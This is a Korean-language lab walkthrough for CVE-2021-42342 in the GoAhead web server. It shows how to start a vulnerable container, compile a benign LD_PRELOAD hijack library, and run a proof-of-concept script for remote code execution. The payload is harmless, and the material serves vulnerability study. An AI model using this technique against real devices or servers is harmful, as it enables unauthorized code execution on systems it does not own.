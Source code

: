 # CVE-2021-42342

GoAhead 4.x 및 5.x, 즉 5.1.5 이전 버전에서 발견된 문제가 있습니다.파일 업로드 필터에서 사용자 양식 변수가 CGI 접두사 없이 CGI 스크립트로 전달될 수 있습니다. 이는 신뢰할 수 없는 환경 변수를 취약한 CGI 스크립트로 터널링할 수 있게 합니다.
공격자는 이 기능을 사용하여 멀티파트 양식에 공유 라이브러리 페이로드를 업로드하고 LD_PRELOAD 환경 변수를 탈취하여 임의의 코드를 실행할 수 있습니다.

이 취약성은 CVE-2017-17562의 패치 우회입니다.

References:

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## 취약 환경구성

다음 명령어로 GoAhead 5.1.4를 실행 

```
docker compose up -d
```
### your-ip는 ifconfig를 통해서 확인한 본인의 ip주소를 입력하면 된다.
그러면 url에  `http://your-ip:8080`를 입력하면 Congratulations! The server is up and running. 을 확인할 수 있다.
 CGI scripts는 `http://your-ip:8080/cgi-bin/index`.다음 url에서 확인할 수 있다.

## Exploit

우선,이 hijack code(payload.c)를 동적공유라이브러리에 컴파일한다.:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

> 명심해야 할 건, GoAhead는 거의 대부분의 IoT 디바이스에서 실행되는 간단한 임베디드 웹 서버이므로, 동적 공유 라이브러리의 형식은 타겟 서버의 아키텍처에 따라 다르다. 비록, vulhub는 당신에게 간단한 예제를 보여주지만, real world에서는 exploit을 컴파일하는 것은 이 메뉴얼만큼 쉽지는 않다.

x86/64 환경에서 컴파일 :

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```


우리는 [this script](poc.py) 로 취약점을 확인해볼 것이다.

```
python3 poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```
만약 이 부분에서 "Example"이 나오지 않고 오류가 나온다면 스크립트의 파일 권한이 없어서 그럴 수 있기 때문에 docker에서 index에 실행권한이 있는지 확인하고, 없다면 실행권한을 부여해야 한다.

![image](https://github.com/ijh4723/whitehat/assets/116932933/895004bc-0d82-46dc-9dff-8fe96017c41b)

hijacking이 성공적으로 됐다.:

